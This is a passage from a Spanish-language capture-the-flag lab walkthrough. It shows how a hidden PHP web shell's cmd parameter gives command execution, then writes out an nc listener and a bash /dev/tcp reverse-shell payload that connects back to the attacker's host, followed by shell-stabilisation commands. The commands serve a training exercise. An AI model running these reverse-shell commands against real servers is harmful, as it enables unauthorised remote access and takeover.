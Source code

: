 Vemos que en el parametro llamado `cmd` podemos realizar ejecuccion de comandos, por lo que haremos lo siguiente:

```
URL = http://<IP>/hidden/.shell.php?cmd=whoami
```

Info:

```
www-data
```

Ahora vamos ha realizar una `reverse shell` de la siguiente forma, nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora en la `URL` pondremos lo siguiente:

```
URL = http://<IP>/hidden/.shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

Enviamos esto y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 34630
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@1d3cc124941a:/var/www/html/hidden$ whoami
whoami
www-data
```

Por lo que vemos seremos el usuario `www-data`, tendremos que sanitizar la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
